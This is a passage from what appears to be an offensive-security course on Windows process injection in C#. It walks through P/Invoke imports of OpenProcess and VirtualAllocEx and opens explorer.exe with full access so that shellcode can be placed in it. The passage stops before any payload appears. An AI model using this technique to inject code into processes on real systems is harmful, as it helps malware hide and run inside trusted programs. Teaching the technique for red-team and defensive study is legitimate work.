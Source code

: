 > Listing 1 - Importing OpenProcess using DllImport and P/Invoke

Now that we have the correct syntax for the import statement, let's figure out the OpenProcess API's arguments from its [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess), as shown below.

```
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

> Listing 2 - OpenProcess function prototype

The first argument (_dwDesiredAccess_) is the access right we want to obtain for the remote process. Its value will be checked against the security descriptor. In our case, we request the [PROCESS_ALL_ACCESS](https://docs.microsoft.com/en-gb/windows/win32/procthread/process-security-and-access-rights) process right, which will give us complete access to the **explorer.exe** process. PROCESS_ALL_ACCESS has a hexadecimal representation of 0x001F0FFF.

Next, we need to decide whether or not a created child process can inherit this handle (_bInheritHandle_). It doesn't matter in this case and we'll simply pass the value _false_. The final argument (_dwProcessId_) is the process ID of **explorer.exe**, which we can easily obtain through Process Explorer.

In this example, the process ID of **explorer.exe** is 4804, but this changes after each login and varies by machine.

We can now implement the call to _OpenProcess_, as shown:

```
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```

> Listing 3 - Calling OpenProcess against explorer.exe

Now that we have an open channel from one process to another, we must allocate memory for our shellcode using _VirtualAllocEx_, which requires us to perform another import. We'll use **www.pinvoke.net** again to find the import shown below.

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, 
  uint dwSize, uint flAllocationType, uint flProtect);
```

> Listing 4 - Importing VirtualAllocEx

To enumerate the _VirtualAllocEx_ arguments, we'll turn to the [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex):

```
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
